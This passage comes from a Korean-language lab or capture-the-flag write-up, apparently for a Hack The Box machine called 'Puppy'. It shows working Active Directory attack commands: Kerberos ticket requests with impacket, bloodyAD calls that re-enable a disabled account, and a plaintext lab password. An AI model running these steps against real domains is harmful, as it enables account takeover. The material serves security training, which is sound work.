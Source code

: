 ```zsh
➜  exploit impacket-getTGT puppy.htb/ant.edwards -dc-ip 10.129.28.145
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Password:
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)

[ . . . ]

➜  exploit rdate -n 10.129.28.145
Wed Oct  1 07:14:06 KST 2025
➜  exploit impacket-getTGT puppy.htb/ant.edwards -dc-ip 10.129.28.145
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Password:
[*] Saving ticket in ant.edwards.ccache

[ . . . ]

➜  exploit export KRB5CCNAME=ant.edwards.ccache
```

<br>

## INITIAL ACCESS (10.129.28.145 - adam.silver)

- [1] `adam.silver` 계정의 상세정보 확인  
  - AD(Active Directory) 사용자 레코드의 주요 속성들(=attributes)
- [2] `adam.silver` 계정 비활성화 플래그 제거 (uac)  
- [3] `adam.silver` 계정 비활성화 플래그 제거 여부 검증  
- [4] `adam.silver` 계정으로 원격접속(WinRM)  
  - 가끔씩 `net rpc` 명령어로 패스워드를 변경하거나 UAC 비활성화 플래그를 삭제해도 원복되는 경우가 있다. 이러한 경우에는 다시 패스워드 변경 및 계정 비활성화 플래그를 제거하고 진행해주면 된다.  

```zsh
# 위 (커버로스 인증 방식)
# 아래 (패스워드 인증 방식)
(bloodyAD) ➜  exploit bloodyAD --host dc.puppy.htb -d puppy.htb -k get object 'adam.silver'
(bloodyAD) ➜  exploit bloodyAD --host dc.puppy.htb -d puppy.htb -u 'ant.edwards' -p 'Antman2025!' get object 'adam.silver'

[ . . . ]

bloodyAD --host dc.puppy.htb -d puppy.htb -k remove uac -f ACCOUNTDISABLE adam.silver
bloodyAD --host dc.puppy.htb -d puppy.htb -k get object 'adam.silver' | grep -i userAccountControl 
```
